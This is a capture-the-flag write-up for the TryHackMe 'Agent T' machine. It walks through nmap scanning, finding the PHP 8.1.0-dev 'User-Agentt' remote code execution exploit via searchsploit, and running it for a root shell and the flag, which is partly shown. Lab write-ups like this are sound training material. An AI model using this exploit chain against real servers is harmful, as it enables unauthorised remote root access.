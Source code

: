 ```yaml
---
title: "Agent T"
url: "/writeups/tryhackme/agent_t/"
summary: agent t
tags:
- tryhackme
- linux
- php
---
```


![Agent T](/htb-agent-t.png)

## Scanning
### nmap
Started with an `nmap` scan:

* TCP all ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -T4 -p- 10.10.49.137 -oA nmap/tcp_all_ports
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:06 EST
Nmap scan report for 10.10.49.137
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -sCV -p80 10.10.49.137 -oA nmap/tcp_def_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:07 EST
Nmap scan report for 10.10.49.137
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```
## Enumeration
### Web Page
Looks to be a simple Admin Dashboard with nothing really interesting found.
There are also a handful of links that lead to non-existent pages.
### searchsploit
```bash
kali@kali:~/ctf/thm/agent_t$ searchsploit PHP 8.1.0-dev
--------------------------------------------------------- -----------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- -----------------------
...
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution      | php/webapps/49933.py
...
```
Found an exploit for the version of PHP that is being used.
Can also be found here: https://www.exploit-db.com/exploits/49933
## Exploitation
Copied the found exploit locally and executed it.
```bash
kali@kali:~/ctf/thm/agent_t$ python3 exploit.py 
Enter the full host url:
http://10.10.49.137/

Interactive shell is opened on http://10.10.49.137/ 
Can't acces tty; job crontol turned off.
$ whoami
root
```
And a interactive shell is given back.
The flag can then be found.
### Flag
```bash
$ cat /flag.txt
flag{4127d0530abf16d6...}
```
